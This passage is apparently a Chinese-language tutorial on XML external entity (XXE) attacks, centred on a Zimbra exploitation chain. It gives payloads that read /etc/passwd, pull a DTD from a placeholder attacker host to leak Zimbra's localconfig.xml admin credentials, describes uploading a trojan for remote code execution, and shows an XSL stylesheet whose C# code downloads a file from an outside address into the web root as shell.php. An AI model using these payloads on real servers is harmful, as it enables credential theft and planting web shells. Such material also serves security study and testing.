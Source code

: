 ```
&lt;/Autodiscover&gt;

```

我们可以写出如下payload，利用xxe漏洞

```

&lt;!ENTITY xxe SYSTEM "file:///etc/passwd" &gt;]&gt;
 &lt;Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a"&gt;
    &lt;Request&gt;
      &lt;EMailAddress&gt;123&lt;/EMailAddress&gt;
      &lt;AcceptableResponseSchema&gt;&amp;xxe;&lt;/AcceptableResponseSchema&gt;
    &lt;/Request&gt;

```

4、Zimbra为SOAP通信设置了一个全局管理员，用户名为“zimbra”，并随机生成密码。这些信息均存储在名为localconfig.xml的本地文件中。在某些条件下可以使用此类凭证，通过/service/extension/clientUploader/upload接口上传木马文件RCE。但是存在权限设置，通过管理端口才能发起请求，默认情况下端口是7071。

5、我们首先利用XXE读取localconfig.xml的本地文件，在Java环境的那我们可以使用CDATA读取，来绕过字符限制。

dtd文件

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;  &lt;!ENTITY all "%start;%goodies;%end;"&gt;

```

payload

```
   
&lt;!ENTITY % goodies SYSTEM "file:../conf/localconfig.xml"&gt;  
&lt;!ENTITY % end "]]&gt;"&gt;  
&lt;!ENTITY % dtd SYSTEM "http://attackip/12.dtd"&gt; 
%dtd; ]&gt; 
&lt;Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a"&gt;
    &lt;Request&gt;
        &lt;EMailAddress&gt;aaaaa&lt;/EMailAddress&gt;
        &lt;AcceptableResponseSchema&gt;&amp;all;&lt;/AcceptableResponseSchema&gt;
    &lt;/Request&gt;
&lt;/Autodiscover&gt;

```

### 2.6、XXE写shell

当服务器支持XSL（可扩展样式表语言）时，就可以利用XXE漏洞来执行任意代码。在XML文档中引用一个恶意的XSL样式表，这个样式表可以包含任意的XSL命令，如&lt;xsl:value-of select="php:function('shell_exec', 'your command here')"/&gt;。当服务器解析这个XML文档时，它将尝试应用这个XSL样式表，从而执行任意代码。

```
&lt;?xml version='1.0'?&gt;
&lt;xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace"&gt;
&lt;msxsl:script language="C#" implements-prefix="user"&gt;
&lt;![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                   @"/var/www/html/shell.php");
return "Exploit Success";
}
]]&gt;
```